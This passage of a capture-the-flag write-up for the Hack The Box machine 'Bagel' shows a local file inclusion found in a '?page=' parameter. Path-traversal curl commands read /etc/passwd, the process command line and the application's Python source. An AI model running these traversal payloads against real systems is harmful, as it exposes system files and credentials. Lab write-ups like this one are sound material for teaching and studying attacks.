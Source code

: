 ```bash
curl -I 10.10.11.201:8000
```

```bash
HTTP/1.1 302 FOUND
Server: Werkzeug/2.2.2 Python/3.10.9
Date: Tue, 07 Mar 2023 21:33:01 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 263
Location: http://bagel.htb:8000/?page=index.html
Connection: close
```

# Foothold

## LFI

Checking the page I noticed the url http://bagel.htb:8000/?page=index.html which is a classic canditate for a local file inclusion  

### Verification

```bash
curl http://bagel.htb:8000/?page=/../../../../../../etc/passwd
```

```bash
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000::/home/developer:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```

### Expose currently running app

```bash
curl http://bagel.htb:8000/?page=/../../../../../../proc/self/cmdline --output -
```

```bash
python3 /home/developer/app/app.py 
```

### Source Code: app.py

```bash
curl http://bagel.htb:8000/?page=/../../../../../../home/developer/app/app.py --output -
```

```python
...
@app.route('/orders')
def order(): # don't forget to run the order app first with "dotnet <path to .dll>" command. Use your ssh key to access the machine.
    try:
        ws = websocket.WebSocket()    
        ws.connect("ws://127.0.0.1:5000/") # connect to order app
        order = {"ReadOrder":"orders.txt"}
        data = str(json.dumps(order))
        ws.send(data)
        result = ws.recv()
        return(json.loads(result)['ReadOrder'])
    except:
        return("Unable to connect")
...
```
